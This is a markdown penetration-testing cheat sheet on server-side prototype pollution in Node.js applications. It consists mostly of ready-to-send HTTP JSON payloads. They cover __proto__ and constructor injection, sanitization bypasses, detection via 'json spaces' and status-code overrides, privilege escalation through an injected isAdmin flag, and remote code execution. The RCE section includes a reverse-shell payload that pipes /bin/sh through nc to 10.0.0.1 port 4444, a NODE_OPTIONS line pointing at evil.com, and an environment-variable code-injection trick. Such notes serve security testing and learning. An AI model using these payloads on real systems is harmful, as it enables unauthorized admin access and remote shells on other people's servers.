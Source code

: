 ```yaml
---
title: Prototype Pollution in Server-Side
description: Prototype Pollution is a JavaScript vulnerability that allows attackers to add arbitrary properties to global object prototypes. The vulnerability may exist in Node.js applications.
tags:
    - Linux
    - Privilege Escalation
    - Web
refs:
    - https://portswigger.net/web-security/prototype-pollution/server-side
    - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce
    - https://security.snyk.io/vuln/SNYK-JS-MERGE-1040469
date: 2023-08-11
draft: false
---
```


## Investigation

If the properties is affected by our pollution, our polluted properties might be injected into the target object as follow.

```json
POST /user/update HTTP/1.1
Host: example.com
...

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "foo": "bar"
    }
}

// Other option
{
    "name": "john",
    "email": "john@example.com",
    "constructor": {
        "prototype": {
            "foo": "bar"
        }
    }
}

// Bypass sanitization 1
{
    "name": "john",
    "email": "john@example.com",
    "__pro__proto__to__": {
        "foo": "bar"
    }
}

// Bypass sanitization 2
{
    "name": "john",
    "email": "john@example.com",
    "constconstructorructor": {
        "prototype": {
            "foo": "bar"
        }
    }
}
```

If our property is added into the target object as below, we can inject malicious property which leads to privilege escalation, reverse shell, so on.

```json
{
    "name": "john",
    "email": "john@example.com",
    "isAdmin": false,
    "foo": "bar"
}
```

<br />

## Privilege Escalation

```json
{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "isAdmin": true
    }
}
```

<br />

## JSON Spaces Overriding

Inject the additional property whose key contains spaces, and send request.

```json
POST /user/update HTTP/1.1

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "json spaces": 10
    }
}
```

In response, if indents is added at the json body as below, the polluted property affects the server.  
To check that in Burp Suite, click **Raw** tab in HTTP response window. 

```json
{
            "name": "john",
            "email": "john@example.com",
            "json spaces": 10
}
```

<br />

## Status Code Overriding

First off, cause syntax error deliberately by removing comma in the json body when sending POST request.

```json
POST /user/update HTTP/1.1

{
    "name": "john"
    "email": "john@example.com"
}
```

Of course we receive the error response as json object that might contain **"status"** or **"statusCode"** like below.

```json
{
    "error":{
        "status":500,
        "message":"Json parse error"
    }
}
```

Now we try to update the status code to arbitrary number (**400-599**) and observe if the status code will be changed.  
We need to send correct json format at the time because we want to apply our payload.

```json
POST /user/update HTTP/1.1

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "status": 555
    }
}
```

Finally we can check if our polluted property affects the server status by sending the incorrect json format body again.  

```json
POST /user/update HTTP/1.1

{
    "name": "john"
    "email": "john@example.com"
}
```

If the server responses the error contains the modified status code, the vulnerability of the prototype pollution exists in the web server.

```json
{
    "error":{
        "status":555,
        "message":"Json parse error"
    }
}
```

<br />

## Remote Code Execution (RCE)

Reference: [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce)

It may often occur in the **`child_process`** module in Node.

```json
"__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=evil\"\".com"
}
```

- **shell**: It enables us to set a specific shell such as **`sh`**, **`bash`**, in which to run commands.
- **NODE_OPTIONS**: The environment variable that defines the command-line arguments.

### RCE via child_process.spawn(), child_process.fork()

```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')"
]}
```

### Overwrite Environment Variable

Below also can be achieved. 

```json
"constructor":{
	"prototype":{
		"env":{
			"xyz":"require('child_process').execSync('whoami').toString()"
		},
		"NODE_OPTIONS":"--require /proc/self/environ"
	}
}
```

- **`env`**  
    Set the value of the `xyz` to environment variables.
    
- **`--require /proc/self/environ`**  
    Inject environment variables from the current process as a module.
